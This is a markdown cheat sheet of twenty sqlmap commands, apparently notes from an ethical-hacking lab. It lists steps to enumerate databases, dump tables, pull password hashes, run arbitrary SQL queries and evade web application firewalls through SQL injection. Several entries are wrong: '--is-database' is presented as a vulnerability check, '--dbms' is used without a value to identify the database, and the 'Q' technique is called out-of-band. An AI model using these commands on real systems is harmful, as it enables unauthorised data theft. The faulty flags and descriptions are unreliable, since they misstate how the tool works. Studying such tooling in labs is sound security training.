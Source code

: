 # SQLMap Commands Documentation

A concise list of SQLMap commands used, along with a brief description for each:

---

1. **List Databases**
    ```bash
    sqlmap -r req4.txt --dbs
    ```
    - Enumerates all databases in the target system.

2. **List Tables**
    ```bash
    sqlmap -r req4.txt -D peh-labs --tables
    ```
    - Lists all tables in a specific database.

3. **List Columns**
    ```bash
    sqlmap -r req4.txt -D peh-labs -T injection0x03_products --columns
    ```
    - Lists all columns in a specific table.

4. **Dump Data**
    ```bash
    sqlmap -r req4.txt -D peh-labs -T injection0x03_products -C product_name --dump
    ```
    - Extracts the data of specific columns from a table.

5. **Dump All Data from a Table**
    ```bash
    sqlmap -r req4.txt -D peh-labs -T injection0x03_products --dump
    ```
    - Extracts all data from a specific table.

6. **Retrieve Banner**
    ```bash
    sqlmap -r req4.txt --banner
    ```
    - Retrieves the database banner (version information).

7. **Identify DBMS**
    ```bash
    sqlmap -r req4.txt --dbms
    ```
    - Identifies the type of database management system (DBMS).

8. **Check for SQL Injection Vulnerability**
    ```bash
    sqlmap -r req4.txt --is-database
    ```
    - Checks if the target URL is vulnerable to SQL injection.

9. **Get Users**
    ```bash
    sqlmap -r req4.txt --users
    ```
    - Retrieves a list of database users.

10. **Get User Privileges**
    ```bash
    sqlmap -r req4.txt --privileges
    ```
    - Retrieves the privileges of database users.

11. **Get Passwords**
    ```bash
    sqlmap -r req4.txt --passwords
    ```
    - Retrieves the hashed passwords of database users.

12. **Enumerate Schema**
    ```bash
    sqlmap -r req4.txt --schema
    ```
    - Enumerates the database schema.

13. **Search for Specific Data**
    ```bash
    sqlmap -r req4.txt --search "keyword"
    ```
    - Searches for specific data in the database.

14. **List All Databases and Tables**
    ```bash
    sqlmap -r req4.txt --tables --all-databases
    ```
    - Lists all databases and their tables.

15. **Check Injection Point**
    ```bash
    sqlmap -r req4.txt --risk=3 --level=5
    ```
    - Checks for SQL injection points with higher risk and level.

16. **Bypass WAF/Filters**
    ```bash
    sqlmap -r req4.txt --tamper=space2comment
    ```
    - Attempts to bypass web application firewalls (WAFs) or filters using tampering techniques.

17. **Run SQL Queries**
    ```bash
    sqlmap -r req4.txt --sql-query "SELECT * FROM users"
    ```
    - Executes custom SQL queries on the database.

18. **Set Maximum Number of Concurrent Requests**
    ```bash
    sqlmap -r req4.txt --threads=10
    ```
    - Sets the number of concurrent requests to increase performance.

19. **Save Output to File**
    ```bash
    sqlmap -r req4.txt --output-dir=/path/to/save
    ```
    - Saves the output to a specified directory.

20. **Check for All Supported SQL Injection Techniques**
    ```bash
    sqlmap -r req4.txt --technique=BEUSTQ
    ```
    - Checks for all supported SQL injection techniques (Boolean-based, Error-based, Union-based, Stacked queries, Time-based, and Out-of-band).

